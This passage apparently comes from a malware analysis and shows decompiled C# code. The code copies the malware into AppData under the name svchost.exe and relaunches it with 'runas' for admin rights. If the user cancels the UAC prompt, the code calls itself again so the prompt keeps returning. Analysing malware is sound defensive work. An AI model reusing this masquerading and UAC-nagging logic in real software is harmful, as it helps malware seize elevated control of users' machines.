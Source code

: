 * The malware also copies itself to svchost.exe, it's not doing any sort of injection but only copying itself to the same svchost.exe name.

```cs
private static void copyResistForAdmin(string processName)
		{
			string friendlyName = AppDomain.CurrentDomain.FriendlyName;
			string location = Assembly.GetExecutingAssembly().Location;
			Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + friendlyName;
			string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\";
			string text2 = text + processName;
			ProcessStartInfo startInfo = new ProcessStartInfo(text2)
			{
				UseShellExecute = true,
				Verb = "runas",
				WindowStyle = ProcessWindowStyle.Normal,
				WorkingDirectory = text
			};
			Process process = new Process();
			process.StartInfo = startInfo;
			if (friendlyName != processName || location != text2)
			{
				if (!File.Exists(text2))
				{
					File.Copy(friendlyName, text2);
					try
					{
						Process.Start(startInfo);
						Environment.Exit(1);
						return;
					}
					catch (Win32Exception ex)
					{
						if (ex.NativeErrorCode == 1223)
						{
							Program.copyResistForAdmin(processName);
						}
						return;
					}
				}
				try
				{
					File.Delete(text2);
					Thread.Sleep(200);
					File.Copy(friendlyName, text2);
				}
				catch
				{
				}
				try
				{
					Process.Start(startInfo);
					Environment.Exit(1);
				}
				catch (Win32Exception ex2)
				{
					if (ex2.NativeErrorCode == 1223)
					{
						Program.copyResistForAdmin(processName);
					}
				}
			}
		}
```